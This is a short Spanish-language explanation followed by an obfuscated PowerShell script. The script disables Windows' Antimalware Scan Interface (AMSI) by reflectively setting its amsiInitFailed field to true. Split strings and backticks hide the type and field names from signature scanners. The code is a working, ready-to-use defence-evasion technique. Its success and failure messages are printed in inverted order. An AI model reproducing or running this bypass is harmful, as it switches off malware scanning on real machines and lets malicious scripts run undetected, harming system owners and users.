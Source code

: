 El script de PowerShell intenta deshabilitar el Servicio Interfaz de examen antimalware (AMSI) de Microsoft, una característica de seguridad de Windows que permite a las aplicaciones antivirus escanear scripts de PowerShell en busca de comportamientos maliciosos.

Primero, la función **`Is-AMSIDisabled`** verifica si AMSI está deshabilitado, utilizando **`Get-variable`** para obtener una variable específica y comprobando si el campo 'amsi' es verdadero.

Luego, el bloque **`try`** intenta deshabilitar AMSI estableciendo el campo 'amsi' en verdadero. Si tiene éxito, imprime "AMSI Successfully Disabled". Si AMSI ya está deshabilitado, imprime "AMSI". Si hay un error, captura la excepción con catch e imprime "Error Disabling AMSI: $_", donde $_ es la excepción capturada.



```
# Verify if AMSI is disabled
function Is-AMSIDisabled {
    return ((Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).GetValue($null) -eq $true
}

# AMSI Bypass
try {
    Set-Item ('Va'+'rI'+'a'+'blE:1'+'q2'+'uZx') ([TYpE]("F"+'rE')) 
    (Get-variable (('1Q'+'2U') +'zX'))."A`ss`Embly"."GET`TY`Pe"(('Uti'+'l','A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em'))).g`etf`iElD"(('a'+'msi'),'d',('I'+'nitF'+'aile'))).(sE`T`VaLUE)(${n`ULl},${t`RuE})

    if (Is-AMSIDisabled) {
        Write-Output "AMSI"
    } else {
        Write-Output "AMSI Successfully Disabled"
    }
} catch {
    Write-Output "Error Disabling AMSI: $_"
}

```
